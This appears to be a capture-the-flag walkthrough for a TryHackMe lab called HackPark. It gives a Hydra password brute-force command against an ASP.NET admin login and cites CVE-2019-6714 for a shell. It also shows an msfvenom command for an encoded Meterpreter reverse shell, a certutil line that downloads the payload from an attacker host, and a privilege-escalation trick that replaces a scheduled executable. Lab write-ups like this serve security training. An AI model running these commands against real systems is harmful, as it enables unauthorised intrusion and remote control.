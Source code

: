 Login through the website

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form '/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=uPTJxxYwftf0jbyFMp5yWDEDFAGD2FPskHKP1AQNb%2BcdVqKOz0kpQ%2FibM0AQdHVVw24RbIyhP9w1prs24w8bzO72rIAGMIl%2F9VtUNs%2BGjzGiY1Z2PhJWWZJmwfNxZD9tcbCd6rbtMABFMQMT0arOMH64supROr0gDGtmL3Us%2F6c9UGjAAgBN3DDNheHg6rrhkzZbxuPiW42%2Bulg5G%2F4YT%2FLrtatlDaWXcZS0%2Bkh4g8oO7%2B%2F9%2FxpPbyMMRHKPlCmvGMA80zhoAk35yHvWioHpvV46M4Zg2eQwKHXvSxfr4pJbezRs%2FfiSTgMpUNI3T3fSO3TLGpEFd6oAcG1Tc%2FIl7wd5dHRY9xQiSZzbRcqtq1TDdfAQ&__EVENTVALIDATION=xpNWEr%2FxHl6wyNirAaCfc07XZr5nskp4DksHN5Aa80BZEAUYUOMfTFBO8zTx3SKiRqkyRUe2hIOf6IhlPiC03cFu%2Bv5kdR%2FyEEPNUUj3jQte11p0vQXxVYl5yIEqm7YDuebynpB4bLAVDiz4DLFpnl3m7h9wk%2Bw0SqoWkGrvGvyWVzIR&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed'
```

Use CVE-2019-6714 (PostView.ascx) and follow the steps to get shell

make reverse shell

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<ip> LPORT=1234 -f exe -o bytekage.exe
```

```
certutil.exe -urlcache -split -f "http://<ip>:8000/try-hack-me/offensive-pen-testing/HackPark/bytekage.exe"
```

find the Message.exe runs ever 30 seconds

rename you shell from msfvenom to Message.exe and put it in the right directory within Program File (x86)

this will pop and root shell for you

to find the install time run

```systeminfo | findstr /i date```
